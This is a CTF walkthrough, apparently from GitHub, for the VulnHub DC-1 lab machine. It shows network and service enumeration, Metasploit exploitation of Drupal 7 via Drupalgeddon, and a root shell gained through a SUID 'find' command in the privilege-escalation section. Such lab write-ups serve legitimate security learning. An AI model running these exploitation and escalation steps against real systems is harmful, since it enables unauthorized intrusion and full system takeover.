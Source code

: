 # DC-1

## 1.Enumeration

Let's scan for the ip address:

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.100	08:00:27:0e:16:d9	PCS Systemtechnik GmbH
192.168.56.113	08:00:27:b8:2f:68	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.113`

```bash
root@kali: nmap -sC -sV -p22,80,111,33997 -v -oN nmap.out 192.168.56.113

Nmap scan report for 192.168.56.113
Host is up (0.00046s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-server-header: Apache/2.2.22 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: B6341DFC213100C61DB4FB8775878CEC
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33997/tcp   status
|   100024  1          40014/tcp6  status
|   100024  1          47535/udp6  status
|_  100024  1          52850/udp   status
33997/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:B8:2F:68 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Exploring port 80 shows website is a Drupal CMS, so we need to exploit a drupal

for finding the version use the command below:

```bash
curl http://192.168.56.113/ | grep 'content="Drupal'

<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
```

## 2.Gaining Access

next we need to check any public exploit for this version :

```bash
root@kali: searchsploit drupal 7 | grep -i metasploit

Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                                                              | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                                                              | php/webapps/44557.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                               | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                               | php/remote/44482.rb
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                                 | php/remote/46510.rb
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                                 | php/remote/46510.rb
Drupal Module CODER 2.5 - Remote Command Execution (Metasploit)                                                                       | php/webapps/40149.rb
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)
```

as it shows there are afew exploits with metasploit:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/349468c4-b34c-464b-9ddc-1213ba7a7a73)

i used `multi/http/drupal_drupageddon` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/7de0d071-2ffe-496b-bf0b-336f6516ec22)

## 3.Privilege Escalation

Search for any SUID binaries on the system  :

```bash
root@kali: find / -user root -perm /4000 2>/dev/null

/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

there is `find` binary here, so it can be easily exploited :

```bash
www-data@DC-1: find . -exec /bin/sh \; -quit

# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)

cd /root

cat thefinalflag.txt
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

this is how you can get root on the system.









